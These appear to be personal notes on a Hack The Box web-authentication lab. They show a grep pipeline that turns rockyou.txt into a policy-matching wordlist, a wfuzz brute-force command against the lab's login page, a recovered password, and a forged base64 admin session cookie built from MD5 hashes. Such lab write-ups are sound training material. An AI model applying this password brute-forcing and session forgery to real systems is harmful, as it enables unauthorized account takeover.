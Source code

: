 Assess the web application and use various techniques to escalate to a privileged user and find a flag in the admin panel. Submit the contents of the flag as your answer.

![[Pasted image 20231220114044.png]]

Acccccccccccccccccccc@1

Password policy is 

- Must start with a capital letter
- Must end with a digit
- Must contain at least one character from the specials characters `$`, `#`, or `@`
- Must be at least 20 characters long
- Must be no more than 29 characters
![[Pasted image 20231220114557.png]]

![[Pasted image 20231220114630.png]]

![[Pasted image 20231220114640.png]]

![[Pasted image 20231220114838.png]]

There is a support user name

Generate a wordlist based on the requirements 
```
grep '^[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:digit:]]$' |grep '[#@$]' | grep -x '.\{20,29\}' | grep '[[:lower:]]' > passwords.txt
```

we can also use wfuzz
```
wfuzz -s 10 -w ./passwords.txt --hs "Invalid credentials" -d "userid=support&passwd=FUZZ&submit="submit"" "http://94.237.63.93:45491/login.php"
```


![[Pasted image 20231220120026.png]]

![[Pasted image 20231220120101.png]]

suport.it : Mustang#firebird1995

![[Pasted image 20231220120419.png]]
We have a HTB_sessid

htb_sessid=YjNiOGI1Y2Y0MjFkM2Y5NmY2NDY5ZmE2MThhNmJiN2Y6NDM0OTkwYzhhMjVkMmJlOTQ4NjM1NjFhZTk4YmQ2ODI%3D

![[Pasted image 20231220120211.png]]

![[Pasted image 20231220120520.png]]

Now copy the first part of the hash

![[Pasted image 20231220120550.png]]

![[Pasted image 20231220120631.png]]

First part of the admin hash

![[Pasted image 20231220120742.png]]
Second part
![[Pasted image 20231220120755.png]]

b98c32ffebc4bc562184c7be1c3ec277:21232f297a57a5a743894a0e4a801fc3

![[Pasted image 20231220120842.png]]
Yjk4YzMyZmZlYmM0YmM1NjIxODRjN2JlMWMzZWMyNzc6MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=

I ended up logging in and replaced the cookie in burp

![[Pasted image 20231220121614.png]]